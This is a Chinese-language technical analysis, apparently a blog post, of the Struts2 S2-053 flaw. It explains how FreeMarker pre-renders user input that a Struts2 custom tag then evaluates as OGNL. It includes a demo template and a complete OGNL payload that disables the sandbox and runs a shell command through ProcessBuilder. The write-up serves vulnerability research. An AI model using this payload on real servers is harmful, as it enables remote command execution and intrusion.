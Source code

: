 这个漏洞其实归根结底还是由于 **Struts2自定义标签的解析导致的漏洞** 。

网上大部分人说的：“Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成一个表达式，被OGNL解析第二次，导致任意命令执行漏洞”。并不完全正确，正确的理解应该是： **Struts2的自定义标签进行渲染之前，由于模板会被Freemarker提前解析渲染一次，所以Struts2自定义标签会渲染Freemarker解析后得到的恶意Ognl表达式** 。

例如如下ftl模板文件：

```html
<html>
<head>
<title>S2-053 Demo</title>
</head>
<body>
<h1>S2-053 Demo</h1>
<hr/>
Your name: <@s.url value="${name}"/>
<hr/>
Enter your name here:<br/>
<form action="" method="get">
<input type="text" name="name" value="" />
<input type="submit" value="Submit" />
</form>
</body>
</html>
```

其中存在使用Struts2的自定义标签： `<@s.url value="${name}"/>` ，但是标签进行渲染之前，其中的 `${name}` 会先经过freemarker解析一遍，如下所示，就是freemarker解析 `${name}` 的值并进行输出：

![image-20210817145324318](/media/image-20210817145324318.png)

继续跟进到 `env.getOut().write()` 中，发现解析 `${name}` 后得到的值就是我们的恶意Ognl表达式：

![image-20210817145524666](/media/image-20210817145524666.png)

按道理此时freemarker的解析就结束了，这个Ognl表达式也不会被freemarker进行解析，但是解析出来的这个Ognl表达式存在位置特殊，这个解析出来的Ognl表达式在Struts2的自定义标签的value属性中：

```html
<@s.url value="${name}"/>
```

可以看到，这里使用了Struts2的自定义标签，所以经过freemarker解析后，这个标签实际上就相当于：

```html
<@s.url value="%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
"/>
```
